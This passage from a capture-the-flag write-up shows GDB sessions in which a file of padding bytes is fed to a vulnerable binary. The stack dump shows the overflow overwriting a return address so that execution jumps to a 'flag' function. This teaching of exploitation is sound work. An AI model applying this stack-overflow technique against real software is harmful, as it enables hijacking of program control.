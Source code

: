 We can then test this out in GDB by piping the file into the vulnerable process:

```shell-session
(gdb) run < payload.bin
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: vuln < payload.bin
You know who are 0xDiablos: 

Breakpoint 1, 0x08049313 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08049291 in vuln ()
(gdb) ni
0x08049296 in vuln ()
(gdb) x/60xw $esp
0xffffcd10:    0xffffcd20    0xf7f9bd67    0x00000001    0x08049281
0xffffcd20:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd30:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd40:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd50:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd60:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd70:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd80:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd90:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcda0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcdb0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcdc0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcdd0:    0x41414141    0x41414141    0x41414141    0x080491e2
0xffffcde0:    0x00000000    0xffffcea4    0xffffceac    0x000003e8
0xffffcdf0:    0xffffce10    0x00000000    0x00000000    0xf7dcaed5
(gdb)
```

Looks good so far. Let's set a breakpoint in `flag` and see whether we hit it:

```shell-session
(gdb) break flag
Breakpoint 3 at 0x80491e6
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�

Breakpoint 3, 0x080491e6 in flag ()
(gdb)
```

Great! We've managed to coerce the program into passing control to the `flag`
function. Let's continue and see what happens...

```shell-session
(gdb) 
Continuing.
Hurry up and try in on server side.
[Inferior 1 (process 27985) exited normally]
(gdb)
(gdb)
```
